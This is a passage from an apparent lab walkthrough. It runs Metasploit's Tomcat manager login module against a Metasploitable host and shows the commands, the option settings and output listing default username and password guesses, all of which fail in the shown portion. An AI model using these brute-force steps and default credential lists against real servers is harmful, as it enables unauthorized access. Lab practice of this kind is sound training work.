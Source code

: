   VHOST                                                                                             no        HTTP server virtual host

Description:
  This module simply attempts to login to a Tomcat Application Manager
  instance using a specific user/pass.

References:
  http://cvedetails.com/cve/2009-3843/
  http://www.osvdb.org/60317
  http://www.securityfocus.com/bid/37086
  http://cvedetails.com/cve/2009-4189/
  http://www.osvdb.org/60670
  http://www.harmonysecurity.com/blog/2009/11/hp-operations-manager-backdoor-account.html
  http://www.zerodayinitiative.com/advisories/ZDI-09-085
  http://cvedetails.com/cve/2009-4188/
  http://www.securityfocus.com/bid/38084
  http://cvedetails.com/cve/2010-0557/
  http://www-01.ibm.com/support/docview.wss?uid=swg21419179
  http://cvedetails.com/cve/2010-4094/
  http://www.zerodayinitiative.com/advisories/ZDI-10-214
  http://cvedetails.com/cve/2009-3548/
  http://www.osvdb.org/60176
  http://www.securityfocus.com/bid/36954
  http://tomcat.apache.org/
  http://cvedetails.com/cve/1999-0502/

We'll definitely want to try blank passwords. Let's set some options:
```
msf auxiliary(tomcat_mgr_login) > workspace metasploitable
[*] Workspace: metasploitable
msf auxiliary(tomcat_mgr_login) > set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
msf auxiliary(tomcat_mgr_login) > set RHOSTS 10.0.0.27
RHOSTS => 10.0.0.27
msf auxiliary(tomcat_mgr_login) > set USER_AS_PASS true
USER_AS_PASS => true
msf auxiliary(tomcat_mgr_login) > set RPORT 8180
RPORT => 8180

Now fire it up:

msf auxiliary(tomcat_mgr_login) > run

msf auxiliary(tomcat_mgr_login) > run

[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:admin (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin: (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:admin (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:manager (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:role1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:root (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:tomcat (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:s3cret (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:manager (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager: (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:admin (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:manager (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:role1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:root (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:tomcat (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:s3cret (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:role1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1: (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:admin (Incorrect: )
```